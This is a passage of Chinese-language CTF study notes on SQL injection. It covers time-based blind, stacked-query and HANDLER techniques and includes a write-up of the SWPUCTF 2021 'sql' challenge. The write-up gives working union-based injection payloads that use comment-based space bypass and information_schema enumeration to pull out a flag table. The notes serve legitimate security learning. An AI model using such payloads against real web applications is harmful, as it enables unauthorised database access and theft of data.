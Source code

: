 
但即使使用二分法，采用`sleep（）`也会造成注入的时间会很长，

跟布尔盲注的流程和逻辑是一模一样的





### 报错注入





### 堆叠注入

就是，一堆 sql 语句(多条)一起执行

> 与联合注入的区别：`union`执行语句类型是有限的，只可以用来执行查询语句，而堆叠注入则可以执行更多种类的sql语句

当后台使用**mysql_query()** 则不能使用堆叠

mysql_query()向与指定的 `link_identifier` 关联的服务器中的当前活动数据库发送一条查询（不支持多条查询）

```sql
show databases;
show tables;
show columns from table;

handler {TABLE} open;
handler {TABLE} read first;
handler {TABLE} close;
```







## 最近题目WP

### [SWPUCTF 2021 新生赛]sql

---

```bash
?wllm=1'order/**/by/**/1,2,3%23

?wllm=-1'union/**/select/**/1,database(),3%23

?wllm=-1'union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'test_db'%23

#Your Login name:2
#Your Password:LTLT_flag,users

?wllm=-1'union/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema/**/like/**/'test_db'%23

?wllm=-1'union/**/select/**/1,2,group_concat(flag)/**/from/**/test_db.LTLT_
flag%23

#这里substr()被ban了,采用`mid()`
```

